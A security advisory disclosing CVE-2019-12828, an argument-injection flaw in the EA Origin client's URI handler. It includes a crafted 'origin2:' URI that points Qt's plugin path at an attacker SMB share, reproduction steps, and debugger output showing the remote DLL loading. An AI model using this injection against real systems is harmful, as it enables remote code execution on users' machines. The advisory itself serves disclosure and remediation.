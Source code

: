 # Electronic Arts Origin Client URI Handler Remote Code Execution (CVE-2019-12828)

April 24, 2019

## Affected Vendor:

Electronic Arts

## Tested Versions:

Origin Client 10.5.37.24524 on x86 Windows 7 SP1 and IE 11
Download: https://www.dm.origin.com/download

## Vulnerability Details:

The EA Origin Client uses the Qt5 GUI framework and installs the following URI pluggable protocol handler for 'origin' and 'origin2' schemes:
```
[HKEY_CLASSES_ROOT\origin2\shell\open\command]
@="\"C:\\Program Files\\Origin\\Origin.exe\" \"%1\""
```
Similar to the bugs covered in the recent ZDI blog post, Origin.exe fails to validate the user provided parameters. As a result, the "platformpluginpath" command line option of QGuiApplication can be injected and pointed towards an attacker controlled server. If this server is hosting a malicious Qt plugin, it will be loaded via `LoadLibraryW()` thereby resulting in arbitrary code execution.

The injection can be performed like so:
```
origin2:?" -platformpluginpath \\attacker\dlls "
```
causing the application to be launched as follows:
```
"C:\Program Files\Origin\Origin.exe" "origin2:?" -platformpluginpath \\attacker\dlls ""
```

## Remediation:

URI pluggable protocol handlers must ensure that they correctly validate the URI as it may contain malicious data.

## Proof of Concept:

A proof-of-concept has been provided to illustrate the impact of the vulnerability. Perform the following:

1) Create an anonymous SMB share named "dlls" on the attacker's machine.
2) Copy origin.dll to a folder named "imageformats" in the "dlls" share.
3) Create an entry in the target's hosts file pointing the domain "attacker" to the attacker's machine.
4) Open poc.html on the target's machine.


## WinDbg Output:
```
Microsoft (R) Windows Debugger Version 6.12.0002.633 X86
Copyright (c) Microsoft Corporation. All rights reserved.

CommandLine: "C:\Program Files\Origin\Origin.exe" "origin2:?" -platformpluginpath \\attacker\dlls ""
Symbol search path is: *** Invalid ***
****************************************************************************
* Symbol loading may be unreliable without a symbol search path.           *
* Use .symfix to have the debugger choose a symbol path.                   *
* After setting your symbol path, use .reload to refresh symbol locations. *
****************************************************************************
Executable search path is: 
ModLoad: 01190000 01490000   Origin.exe
ModLoad: 778b0000 779f2000   ntdll.dll
eax=011cd86e ebx=7ffdb000 ecx=00000000 edx=00000000 esi=00000000 edi=00000000
eip=778f6c58 esp=001cfe00 ebp=00000000 iopl=0         nv up ei pl nz na po nc
cs=001b  ss=0023  ds=0023  es=0023  fs=003b  gs=0000             efl=00000200
*** ERROR: Symbol file could not be found.  Defaulted to export symbols for ntdll.dll - 
ntdll!RtlUserThreadStart:
778f6c58 89442404        mov     dword ptr [esp+4],eax ss:0023:001cfe04=00000000
0:000> sxd ld
0:000> g
[... truncated for readability...]
ModLoad: 6f0d0000 6f0d8000   C:\Windows\System32\npmproxy.dll
ModLoad: 6f500000 6f596000   C:\Windows\system32\wbem\fastprox.dll
ModLoad: 70580000 70598000   C:\Windows\system32\NTDSAPI.dll
ModLoad: 722e0000 722e7000   \\attacker\dlls\imageformats\origin.dll
>>>>>>> DllMain
```

## Shoutouts

@zer0pwn found this bug around the same time as I did and wrote a much more in-depth post on it: https://zero.lol/2019-05-22-fun-with-uri-handlers/